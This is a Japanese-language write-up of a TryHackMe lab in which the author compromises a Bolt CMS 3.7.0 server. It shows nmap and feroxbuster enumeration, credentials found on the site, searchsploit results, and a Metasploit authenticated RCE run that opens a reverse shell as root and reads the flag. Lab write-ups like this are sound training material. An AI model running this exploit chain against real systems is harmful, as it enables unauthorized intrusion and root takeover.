




nmapを実施
┌──(kali㉿kali-1-kalija)-[~]
└─$ nmap 10.48.161.175 -T4 -p-
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-18 09:21 +0900
Nmap scan report for 10.48.161.175
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8000/tcp open http-alt
Nmap done: 1 IP address (1 host up) scanned in 46.15 seconds
sshとhttpが開いている
また8000番にhttp-altというサービスがopenしている
feroxbusterを実施したがめぼしい結果は得られず
┌──(kali㉿kali-1-kalija)-[~]
└─$ feroxbuster -u http://10.49.138.219
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯 Target Url │ http://10.49.138.219/
🚩 In-Scope Url │ 10.49.138.219
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.13.1
💉 Config File │ /etc/feroxbuster/ferox-config.toml
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404 GET 9l 31w 275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403 GET 9l 28w 278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200 GET 15l 74w 6147c http://10.49.138.219/icons/ubuntu-logo.png
200 GET 375l 964w 10918c http://10.49.138.219/
[####################] - 87s 30005/30005 0s found:2 errors:0
[####################] - 87s 30000/30000 345/s http://10.49.138.219/
10.49.138.219の後ろにポート番号を明示しなかった場合、URLスキームにしたがってhttp://は８０番ポートを見る
今回は８０００番ポートにもhttpがあるので明示して調べる
┌──(kali㉿kali-1-kalija)-[~]
└─$ feroxbuster -u http://10.49.138.219:8000
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯 Target Url │ http://10.49.138.219:8000/
🚩 In-Scope Url │ 10.49.138.219
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.13.1
💉 Config File │ /etc/feroxbuster/ferox-config.toml
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404 GET 136l 343w 5516c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200 GET 8l 116w 6882c http://10.49.138.219:8000/theme/base-2018/css/theme.css
200 GET 147l 328w 5551c http://10.49.138.219:8000/search
200 GET 128l 301w 4992c http://10.49.138.219:8000/pages
200 GET 10l 357w 34688c http://10.49.138.219:8000/theme/base-2018/js/app.js
200 GET 280l 440w 8643c http://10.49.138.219:8000/entry/message-for-it-department
（中略）
4 GET 289l 1524w 149111c http://10.49.138.219:8000/home/bolt/app/cache/profiler/f1/32/b432f1
404 GET 216l 1082w 97032c http://10.49.138.219:8000/weird-world
[####################] - 20m 30880/30880 0s found:1430 errors:2740
[####################] - 20m 30000/30000 25/s http://10.49.138.219:8000/
ということで８０番ポートのほうは何も得られなかったが
８０００番ポートのほうは色々調べたほうがよいなということが分かった
実際にブラウザで調べる

管理者からのメッセージがホーム画面にあり、ユーザーネーム
boltをゲットした
またIT部門へのメッセージもありパスワード
boltadmin123をゲットしたこれはsshなどではなく単にCMSのクレデンシャルであろう
「bolt cms login」で検索すると公式wikiがヒットして
/boltをチェックするのが良さそうであることが分かった
writeupも見ながら進めているので正直答えは知っているんだけど
アクセスできない
どうも今日はtryhackmeの調子が悪いのだろうか
再起動したらアクセスできるようになった
公式wikiの情報を参考に/bolt/loginにアクセスする

ログインできたダッシュボードの左下にバージョン情報が書いてある

これをもとにいったん脆弱性を検索してみる
まずsearchsploitはバージョン情報的に有益なものはなさそうであった
┌──(kali㉿kali-1-kalija)-[~]
└─$ searchsploit bolt
------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------------ ---------------------------------
Apple WebKit - 'JSC::SymbolTableEntry::isWatchable' Heap Buffer O | multiple/dos/41869.html
Bolt CMS 3.6.10 - Cross-Site Request Forgery | php/webapps/47501.txt
Bolt CMS 3.6.4 - Cross-Site Scripting | php/webapps/46495.txt
Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Executi | php/webapps/46664.html
Bolt CMS 3.7.0 - Authenticated Remote Code Execution | php/webapps/48296.py
Bolt CMS < 3.6.2 - Cross-Site Scripting | php/webapps/46014.txt
Bolthole Filter 2.6.1 - Address Parsing Buffer Overflow | multiple/remote/24982.txt
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulne | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion | php/webapps/48411.txt
Cannonbolt Portfolio Manager 1.0 - Multiple Vulnerabilities | php/webapps/21132.txt
CMS Bolt - Arbitrary File Upload (Metasploit) | php/remote/38196.rb
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
┌──(kali㉿kali-1-kalija)-[~]
└─$
どうやらthmの問題文に従うと、この3.7.0にRCEエクスプロイトを使うらしい
metasploitにもあったのでセッティングしていく
msf exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.49.167.133
RHOSTS => 10.49.167.133
msf exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.10.14.5
msf exploit(unix/webapp/bolt_authenticated_rce) >
runする
msf exploit(unix/webapp/bolt_authenticated_rce) > run
[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "ztyvn".
[*] Found 3 potential token(s) for creating .php files.
[+] Used token 0dbb8a7d0a05a9149eb6531fb2 to create xjbeqpnxn.php.
[*] Attempting to execute the payload via "/files/xjbeqpnxn.php?ztyvn=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.49.167.133:33024) at 2026-05-18 15:39:59 +0900
[+] Deleted file xjbeqpnxn.php.
[+] Reverted user profile back to original state.
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/bolt/public/files
ls /
app
bin
boot
cdrom
dev
etc
extensions
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
public
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
ls /root
ls
index.html
ls /home
bolt
composer-setup.php
flag.txt
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
とれました
おわり